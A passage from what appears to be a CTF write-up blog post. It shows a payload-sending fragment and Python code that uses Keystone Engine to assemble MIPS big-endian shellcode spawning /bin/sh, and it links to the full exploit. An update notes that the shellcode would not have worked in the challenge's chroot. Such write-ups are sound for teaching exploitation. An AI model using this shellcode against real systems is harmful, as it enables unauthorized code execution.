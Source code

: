 r.send(payload[102:204])
r.send(payload[204:])
{% endhighlight %}


#### Shellcode crafting ####

For some reasons, the different shellcodes I had from external resources did not
work. So I decided to use [Keystone Engine](http://www.keystone-engine.org) to
write one. Instead of writing totally from scratch, I used a template created
earlier as part of my project
[`cemu`](https://github.com/hugsy/cemu/blob/master/templates/mipsbe_sys_exec_bin_sh.asm)
 and adapted it:

{% highlight python %}
log.info("preparing shellcode")
shellcode = [
  "li $sp, 0x4a8b00",
  "li $v0, 0x2f62696e",
  "sw $v0, 0($sp)",
  "li $v0, 0x2f736800",
  "sw $v0, 4($sp)",
  "li $v0, 4011",
  "move $a0, $sp",
  "addiu $a1, $zero, 0",
  "addiu $a2, $zero, 0",
  "syscall",
]

arch, mode, endian = keystone.KS_ARCH_MIPS, keystone.KS_MODE_MIPS32, keystone.KS_MODE_BIG_ENDIAN
ks = keystoneks = keystone.Ks(arch, mode | endian)
sc, cnt = ks.asm(shellcode)
log.info("keystone compiled %d instructions" % cnt)
sc = "".join([chr(x) for x in sc])
r.send(sc)
{% endhighlight %}

>
> **Update**: as [@0xGrimmlin](https://twitter.com/0xGrimmlin) [mentioned](https://twitter.com/0xGrimmlin/status/824959540349112321), during the CTF,
> the challenge was actually QEMU chroot-ed, so technically this shellcode would
> not have worked, but you could similarly build another one doing
> open/read/write(stdout)
>

#### Fire ####

We have now all the components to launch our exploit. The final version is
available
[here](https://gist.github.com/hugsy/3e64b7cae4de38ba153a23e5491bff24).

![](https://i.imgur.com/VJgWcia.png)


### Conclusion ###
